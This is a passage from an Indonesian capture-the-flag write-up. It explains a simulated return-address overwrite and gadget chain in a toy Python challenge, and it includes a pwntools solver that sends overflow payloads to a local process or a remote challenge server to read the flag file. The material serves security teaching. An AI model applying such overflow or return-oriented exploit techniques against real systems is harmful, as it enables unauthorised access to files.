 ```py

def main():
	global stack
	print("Good Luck~")
	stack = "main_end".ljust(8, ' ') + stack
	vuln()

def main_end():
	print("Thank you~")

if __name__ == '__main__':
	main()
```

Tujuan kita disini adalah mengisi :

1. Mengisi variable **rdi** menjadi nama file yang berisi flag lewat fungsi **gadget_1**.
2. Mengisi variable **rsi** menjadi **r** lewat fungsi **gadget_2**.
3. Mengisi variable **rdx** menjadi lebih dari panjang flag lewat fungsi **gadget_3**.

Sehingga, ketika fungsi `get_file` dipanggil, akan menjadi seperti ini:

```py
print(open('flag', 'r').read()[:length])
```

Overwrite `return_address` ke fungsi `gadget_*` (caranya seperti pada soal sebelumnya) lalu kembali lagi ke fungsi `main` untuk overwrite `return_address` lagi ke fungsi gadget selanjutnya sampai semuanya terpenuhi. Lalu ke fungsi `get_file` untuk mendapatkan flag.

Berikut solvernya.

```py
#!/usr/bin/python

from sys import argv
from pwn import *

def roprop(addr, val=""):
    buf = 'A'*(32)
    buf += addr
    buf += val.ljust(8, ' ')
    buf += 'main'.ljust(8, ' ')
    p.sendline(buf)

def exploit(p):
    roprop('gadget_1', 'flag')
    roprop('gadget_2', 'r')
    roprop('gadget_3', '99999999')
    roprop('get_file')
    flag = p.recvall().split()[-1]
    info(flag)

if __name__ == '__main__':
    if len(argv) < 2:
        p = process(['python3', 'tempat_kembali2.py'])
    else:
        p = remote('128.199.104.41', 29661)
    exploit(p)

```
